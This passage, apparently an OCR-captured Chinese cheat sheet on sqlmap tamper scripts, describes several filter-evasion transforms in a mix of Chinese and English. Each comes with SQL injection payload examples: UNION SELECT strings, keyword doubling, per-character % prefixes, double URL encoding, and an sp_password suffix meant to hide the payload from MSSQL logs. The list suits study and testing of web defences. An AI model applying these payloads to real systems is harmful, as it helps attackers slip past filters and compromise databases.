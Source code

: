 all
```
```
脚本名：bluecoat.py
作用：代替空格字符后与一个有效的随机空白字符的SQL语句。然后替换=为like
例子:
('SELECT id FROM users where id = 1')
'SELECT%09id FROM users where id LIKE 1'
要求:
·MySQL 5.1, SGOS
```
```
脚本名：nonrecursivereplacement.py
作用：双重查询语句。取代predefined SQL关键字with表示suitable for替代（例如.replace（“
SELECT”、”")）filters
例子:
('1 UNION SELECT 2--')
'1 UNIOUNIONN SELESELECTCT 2--'
要求:
all
```
```
脚本名：space2randomblank.py
作用：代替空格字符（“”）从一个随机的空白字符可选字符的有效集
例子:
('SELECT id FROM users')
'SELECT%0Did%0DFROM%0Ausers'
要求:
all
```
```
脚本名：percentage.py
作用：asp允许每个字符前面添加一个%号
例子:
SELECT FIELD FROM TABLE
%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
要求:
·ASP
·Microsoft SQL Server 2000, 2005
·MySQL 5.1.56, 5.5.11
·PostgreSQL 9.0
```
```
脚本名：
sp_password.py
作用：追加sp_password’从DBMS日志的自动模糊处理的有效载荷的末尾
例子:
('1 AND 9227=9227--')
'1 AND 9227=9227--sp_password'
要求:
·MSSQL
```
```
脚本名：chardoubleencode.py 双url编码(不处理以编码的)
例子:
SELECT FIELD FROM%20TABLE
%2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%25
4f%254d%2520%2554%2541%2542%254c%2545
```
```
脚本名：unionalltounion.py
作用：替换UNION ALL SELECT UNION SELECT
例子:
('-1 UNION ALL SELECT')
'-1 UNION SELECT'
要求:
